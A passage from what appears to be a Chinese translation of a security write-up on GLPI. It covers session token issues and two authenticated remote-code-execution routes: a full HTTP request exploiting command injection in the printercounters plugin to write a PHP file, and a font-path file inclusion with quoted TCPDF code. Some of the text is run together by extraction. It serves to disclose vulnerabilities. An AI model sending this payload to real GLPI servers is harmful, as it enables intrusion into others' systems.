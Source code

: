   
然后，服务器使用可用于访问 GUI 的有效 cookie 进行应答。  
  
```
Set-Cookie: glpi_<redacted>=<redacted>; path=/
```  
  
  
个人令牌  
  
此令牌用于日历功能，允许您使用唯一令牌共享个人日历。此令牌使用该  
Session::authWithToken  
方法验证会话，然后在打印用户日历后销毁会话。  
  
以前，可以通过  
personal_token  
在脚本结束执行之前强制出现致命错误来恢复模拟会话。自 10.0.9 版起，通过将选项设置  
session.use_cookies  
为 ，此问题已得到缓解0。  
  
经过身份验证的远程代码执行  
  
方法 1：市场  
  
一旦管理员帐户被攻破，获取远程代码执行的最简单方法是进入插件市场。它甚至曾经托管过一个“Shell 命令”插件，但后来被禁用远程安装，然而，仍然有大量易受攻击的插件。  
  
有时，GLPI 服务器无法直接访问互联网，但是可以从管理界面配置代理服务器，攻击者可以利用这一点，例如通过设置自己的代理服务器或配置公司内部代理。  
  
例如，公共插件  
printercounters  
仍然容易受到系统命令注入的攻击。  
  
```
POST/glpi/marketplace/printercounters/ajax/process.php HTTP/1.1Host: <redacted>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0Content-Type: application/x-www-form-urlencoded; charset=UTF-8X-Glpi-Csrf-Token: <redacted>X-Requested-With: XMLHttpRequestContent-Length: 266Connection: keep-aliveReferer: http://<redacted>/glpi/marketplace/printercounters/front/config.form.phpCookie: glpi_<redacted>=<redacted>; stay_login=0action=killProcess&items_id=1231231';echo `{echo,PD9waHAgcGhwaW5mbygpOyA/Pg%3d%3d}|{base64,-d}|{tee,rz.php}`;%23
```  
  
  
方法 2：本地文件包含 - 10.0.17  
  
PDF 导出功能中还发现了本地文件包含。此功能允许管理员使用库将各种表格导出为 PDF 格式TCPDF。可以在配置条目中设置自定义 PDF 字体pdffont（通过超级管理员帐户全局更改，或由任何帐户通过其用户配置文件中的个性化选项进行更改），但未正确检查目录遍历，无论是从GLPI还是从TCPDF侧面。  
  
PDF 字体只是存储在 TCPDFfonts文件夹中的 php 文件，由于此问题，如果字体名称受到控制，则有可能包含来自系统的任何 PHP 文件。  
  
```
<?php        if (TCPDF_STATIC::empty_string($fontfile) OR (!@TCPDF_STATIC::file_exists($fontfile))) {            // build a standard filenames for specified font            $tmp_fontfile = str_replace(' ', '', $family).strtolower($style).'.php';            $fontfile = TCPDF_FONTS::getFontFullPath($tmp_fontfile, $fontdir);            if (TCPDF_STATIC::empty_string($fontfile)) {                $missing_style = true;                // try to remove the style part                $tmp_fontfile = str_replace(' ', '', $family).'.php';                $fontfile = TCPDF_FONTS::getFontFullPath($tmp_fontfile, $fontdir);            }        }        // include font file        if (!TCPDF_STATIC::empty_string($fontfile) AND (@TCPDF_STATIC::file_exists($fontfile))) {            $type=null;            $name=null;            $desc=null;            $up=-null;            $ut=null;            $cw=null;            $cbbox=null;            $dw=null;            $enc=null;            $cidinfo=null;            $file=null;            $ctg=null;            $diff=null;            $originalsize=null;            $size1=null;            $size2=null;            include($fontfile);
```  
  